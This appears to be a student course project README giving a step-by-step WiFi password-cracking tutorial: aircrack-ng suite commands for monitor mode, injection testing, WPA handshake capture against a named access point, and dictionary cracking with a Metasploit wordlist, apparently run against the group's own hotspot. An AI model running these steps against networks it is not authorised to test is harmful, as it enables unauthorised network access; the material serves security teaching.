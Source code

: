 # Group-8-System-Security-and-NetWork
Group 8 for course System Security and Network
## Table of contents
- [Wifi Attack](#wifi-attack)


## Requirements
- Os : **Kali Lunix** (for this pratice) , **Ubuntu** , other linux distribution

## Wifi Attack
📢JUST FOR EDUCATIONNAL PURPOSE📢
>**Prerequisites**<br/>
>We need to have *hostpot* (wifi name (**ssid**)) available in this case we just  put sample password (**1234567890**)


To start open your terminal and type the command bellow : 
```console
ifconfig
``` 

 or
 
 ```console
iwconfig
```
 
 > Those commands allow you to list all network interface available and to apply the attack we focus on *wlan0* interface (wireless network)
<img src="https://user-images.githubusercontent.com/76158313/234447153-edad29ae-5958-478a-a2ac-58d94f861164.png" width=480px/>

Next<br/>

This command stops network managers then kill interfering processes left <br/>
**Note:** It is very important to kill the network managers before putting a card in monitor mode!

```console
sudo airmon-ng check kill
```
<img src="https://user-images.githubusercontent.com/76158313/234449446-9f423ee1-9aa5-4c76-98e7-22fc6bfd1433.png" width=480px/>

Now we start *monitoring mode* on our card :
```console
$ sudo airmon-ng start wlan0
```
<img src="https://user-images.githubusercontent.com/76158313/234451442-6df2b332-5c57-4671-a124-d4fde763a6f6.png" width=480px/>

Next<br/>

```console
sudo aireplay-ng -9 wlan0mon
```

So we have to use the ``wlan0mon`` interface to see all the access points around us and what is being done in these different access points.We see " **injection is working** " and we have the access points that are displayed. We are interested in the access point "TECNO SPARK 6 Air" and you see that each access point operates in a specific channel. For us it is ``channel 13``.

<img src="https://user-images.githubusercontent.com/76158313/234453484-04e230eb-e75b-4e12-bec0-84a2d5c67c05.png" width=480px/>

Next <br/>
```console
sudo aireplay-ng -9 wlan0mon
sudo airodump-ng -c 13 --bssid 76:C7:DA:D8:1A:AD -w group8 wlan0mon
```
Here we will copy the ``bssid`` which is the ``Mac address`` of our access point and we will execute the airodum-ng command with the precise parameters as follows: in the terminal, it will generate traffic at the access point location  

While the packets are going through, when someone is going to connect. And we'll see that it will have change, we'll see a **handshake** that confirms that there is a client that wanted to connect to our access point.

Finally,<br/>
```console
sudo aircrack-ng -w /usr/share/metasploit-framework/data/wordlists/password.lst group8-01.cap
```
And now we will use the ``aircrack`` command that allows us to crack the password that relies on a file that contains a set of predefined passwords to retrieve the password entered. After validating, we see the password appear in the dictionnary ``password`` which is not very **huge**.



